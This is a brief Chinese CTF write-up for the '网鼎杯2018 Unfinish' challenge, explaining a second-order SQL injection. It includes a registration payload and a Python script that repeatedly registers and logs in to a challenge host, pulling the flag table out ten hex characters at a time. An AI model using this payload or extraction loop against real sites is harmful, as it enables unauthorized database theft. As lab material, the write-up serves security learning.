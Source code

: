 # [网鼎杯2018]Unfinish

![image-20210603204739380]([网鼎杯2018]Unfinish/image-20210603204739380.png)

## 知识点

- 二次注入

## 解题

​	register.php进行注册

payload:

```sql
email=2@1&username=0'%2Bsubstr((select hex(hex(database()))) from 1 for 10)%2B'0&password=1
```

![image-20210603205103608]([网鼎杯2018]Unfinish/image-20210603205103608.png)

`3737363536`进行两次hex解码

![image-20210603205131709]([网鼎杯2018]Unfinish/image-20210603205131709.png)

```python
from typing import Counter
import requests
import time

login_url='http://78827edf-d5bf-44fa-97ec-b1d89a836364.node3.buuoj.cn/login.php'
register_url='http://78827edf-d5bf-44fa-97ec-b1d89a836364.node3.buuoj.cn/register.php'
content=''
for i in range(1,20):
    data_register={'email':'15@%d'%i,'username':"0'+( substr(hex(hex((select * from flag ))) from (%d-1)*10+1 for 10))+'0"%i,'password':'1'}
    data_login={'email':'15@%d'%i,'password':'1'}
    requests.post(register_url,data_register)
    rr=requests.post(login_url,data_login)
    rr.encoding='utf-8'
    r=rr.text
    location=r.find('user-name')
    count=r[location+17:location+42].strip()
    content+=count
    print(count)
    time.sleep(1)
print(content)
```



![image-20210603213252537]([网鼎杯2018]Unfinish/image-20210603213252537.png)